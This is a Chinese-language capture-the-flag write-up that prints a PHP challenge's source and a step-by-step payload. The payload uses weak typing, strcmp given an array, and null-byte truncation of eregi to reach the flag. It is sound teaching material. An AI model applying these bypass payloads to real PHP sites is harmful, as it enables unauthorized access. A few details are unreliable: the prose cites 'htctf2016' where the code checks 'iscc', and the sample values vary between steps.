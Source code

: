 # Challenge
```php
<?php
show_source(__FILE__);
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
   is_numeric(@$a["bar1"])?die("nope"):NULL;
   if(@$a["bar1"]){
	   ($a["bar1"]>2016)?$v1=1:NULL;
   }
   if(is_array(@$a["bar2"])){
	   if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	   $pos = array_search("nudt", $a["a2"]);
	   $pos===false?die("nope"):NULL;
	   foreach($a["bar2"] as $key=>$val){
		   $val==="nudt"?die("nope"):NULL;
	   }
	   $v2=1;
   }
}
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "iscc")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
?>
```

# Solution
## v1
```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的foo，经过一次json_decode，然后转换成array。然后判断 `$a["bar1"]` 是否满足 is_numeric，若满足则die掉。接下来又判断 `$a["bar1"]` 是否大于 2016 。

利用php弱类型特性，可以设置
```
$a["bar1"] = 2017a
```

这样is_numeric时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

## v2
```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```

接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个（count($a["bar2"])!==5），同时要求`$a["bar2"][0]`是数组。所以我们设置:
```
$a["bar2"] = [[],2,3,4,5]
```

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串“nudt”在$a["a2"]中的位置。若没有找到，array_search返回false，会通过严格比较导致die掉。所以这里要设置：
```
$a["a2"] = “nudt”
```
注意这里因为用了`$pos===false?`的严格比较，所以0不`===`false。

之后就能设置 v2 = 1

结合$a是由json_decode得来，所以第一个payload为：
```
foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}
```

## v3
```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "iscc")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用strcmp进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置cat[1]为一个数组。

接下来用eregi对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0].$d`中要有字符串“htctf2016”。这里利用%00对eregi的截断功能，则在正则匹配eregi时在开头时就匹配结束掉。

`strpos(($c[0].$d), "iscc")`中，还要求“iscc”不能出现在开头。

所以设置：
```
$d = %00 即 dog=%00

$c[0]  = "aiscc"
```

所以综上所述，构造最后的payload如下：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=aiscc&cat[1][]=&dog=%00
```


# Refference
+ [chybeta : php是最好的语言](https://chybeta.github.io/2017/08/18/XNUCA-2017-Web%E4%B8%93%E9%A2%98%E8%B5%9B%E5%89%8D%E6%8C%87%E5%AF%BC-php%E6%98%AF%E6%9C%80%E5%A5%BD%E7%9A%84%E8%AF%AD%E8%A8%80-writeup/)